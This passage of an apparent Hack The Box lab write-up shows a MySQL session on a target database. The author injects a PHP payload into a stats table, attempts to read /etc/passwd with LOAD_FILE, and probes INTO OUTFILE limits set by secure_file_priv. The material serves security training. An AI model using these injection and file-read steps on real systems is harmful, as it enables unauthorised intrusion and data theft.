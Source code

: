 ```
| sno | video          | token      |
+-----+----------------+------------+
|  18 | 78683241.avi   | 673109167  |
|  19 | 1619102457.avi | 2112073545 |
|  20 | 490922722.avi  | 72247503   |
|  21 | 1530970781.avi | 1923945228 |
|  22 | 2129471110.avi | 672162071  |
+-----+----------------+------------+
5 rows in set (0.02 sec)
```

The `no issues yet` message is displayed at the bottom of the staging site `update.php` page. I can change it and try to inject PHP code on the page:

```
MySQL [integrity]> delete from stats where id=1;
Query OK, 1 row affected (0.02 sec)

MySQL [integrity]> insert into stats (id, status) values (1, "<?php phpinfo();?>");
Query OK, 1 row affected (0.03 sec)
```

When I check the update page I don't see anything on the product status and my PHP code hasn't been executed. Looking at the HTML source code, I see that the PHP tag has been inserted into the code but no PHP code is executed.

![](/assets/images/htb-writeup-player/staging_phptry.png)

I can't read arbitrary files with `LOAD_FILE` or write with `INTO OUTFILE`. `secure_file_priv` is configured so I can only read/write within the directory below:

```
MySQL [integrity]> SHOW VARIABLES LIKE "secure_file_priv";
+------------------+-----------------------+
| Variable_name    | Value                 |
+------------------+-----------------------+
| secure_file_priv | /var/lib/mysql-files/ |
+------------------+-----------------------+
1 row in set (0.02 sec)
```

```
MySQL [integrity]> select load_file("/etc/passwd");
+--------------------------+
| load_file("/etc/passwd") |
+--------------------------+
| NULL                     |
+--------------------------+
1 row in set (0.02 sec)

MySQL [integrity]> select * from stats into outfile "/tmp/test";
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
MySQL [integrity]> select * from stats into outfile "/var/lib/mysql-files/test";
Query OK, 2 rows affected (0.02 sec)

MySQL [integrity]> select load_file("/var/lib/mysql-files/test");
+------------------------------------------+
| load_file("/var/lib/mysql-files/test")   |
+------------------------------------------+
| \N	<?php phpinfo();?>
1	no issues yet\

 |
+------------------------------------------+
1 row in set (0.02 sec)
```